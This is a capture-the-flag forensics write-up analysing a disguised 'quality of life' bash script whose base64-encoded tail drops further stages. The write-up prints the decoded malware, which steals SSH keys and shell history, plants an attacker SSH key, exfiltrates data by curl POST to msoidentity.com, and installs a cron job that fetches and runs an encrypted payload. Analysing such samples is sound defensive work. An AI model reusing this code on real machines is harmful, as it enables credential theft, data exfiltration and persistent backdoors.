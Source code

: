 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then mentions to try and follow the cyber kill chain from start to finish to see what the attacker was trying to do, and along the way you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down at the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script - now obfuscated in base64 - being saved and executed. We can simply throw base64 string in to the browser tool CyberChef, it will automatically detect base64, and then decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

```
#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
```

Now were seeing something more malicious! This script basically seems to create a directory called log_(current datetime) and piles a whole bunch of sensitive system information in there like CPU, memory, and OS info, as well as SSH keys and shell history. The attacker also seems to drop their own SSH key from "https://msoidentity.com/auth" into the authorized keys directory to set up persistence. Then, the logs get compressed into a tar file and exfiltrated to "msoidentity.com/log" via a POST request.

After all that is done, another bash script - this time seemingly encoded in base32 - is retrieved and ran from "https://msoidentity.com/info". Now we have three new URLs to explore, so my first instinct was to simply visit all three of them in a browser. While the auth endpoint seemed to be a dud, the log and info endpoints both yielded me text file downloads. From the log endpoint I got the first part of the flag, "C1{Sn34ky_", and from the info endpoint I got the encoded script. Once again, throwing the base32 encoded string into cyberchef worked just fine and output this:

![image](https://github.com/user-attachments/assets/3199b2d5-b01c-4d54-b277-f3c6b5f57f17)

```
CHECK_SCRIPT="/usr/local/bin/check_backup.sh"
CRON_INTERVAL="*/5 * * * *"  # Every 5 minutes
CRON_JOB_NAME="check_backup_script"
SCRIPT_PATH="/opt/backup.sh"
$SCRIPT_URL=https://msoidentity.com/backup_info

# DO NOT PUT PASSWORDS IN PLAIN TEXT

cat <<EOF | sudo tee "$CHECK_SCRIPT" > /dev/null
#!/bin/bash
if [ ! -f "$SCRIPT_PATH" ]; then
    curl -fsSL "$SCRIPT_URL" -o "$SCRIPT_PATH.enc" && openssl enc -nosalt -aes-256-cbc -d -in "$SCRIPT_PATH.enc" -out "$SCRIPT_PATH" -pass pass:"45337a3067335f56475f" && chmod +x "$SCRIPT_PATH" && rm "$SCRIPT_PATH.enc"
fi
EOF

chmod +x "$CHECK_SCRIPT"

(crontab -l 2>/dev/null | grep -v "$CHECK_SCRIPT"; echo "$CRON_INTERVAL $CHECK_SCRIPT # $CRON_JOB_NAME") | crontab -
```
